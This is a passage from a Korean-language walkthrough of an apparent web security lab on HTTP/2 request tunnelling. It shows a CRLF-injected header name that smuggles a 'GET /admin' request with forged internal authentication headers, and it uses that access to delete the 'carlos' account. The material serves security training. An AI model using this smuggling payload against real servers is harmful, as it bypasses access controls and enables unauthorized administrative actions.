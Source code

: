 반환받으려는 페이지보다 작은 '/login' 페이지를 래퍼 패킷의 `:path` 로 설정하여 요청합니다.

<img src="13.png" width=40% style="display: block; margin: auto"/>

**Step 4)** 응답 페이지 상에서 내부 헤더를 확인한 후 새로운 패킷에 아래와 같이 헤더를 생성, 변조하여 전송하면 '/admin' 페이지의 내용이 담긴 패킷을 받을 수 있습니다.
실습의 Key 인 carlos 계정 삭제 URL을 확인합니다.

Header name

```
foo:a\r\n
\r\n
GET /admin HTTP/1.1
X-SSL-VERIFIED: 1
X-SSL-CLIENT-CN: administrator
X-FRONTEND-KEY: 5514667855738008
```

![access admin-delete user](14.png)


**Step 5)** carlos 계정 삭제 요청을 터널링 전송합니다. 에러가 발생하나 삭제는 정상적으로 실행됩니다.
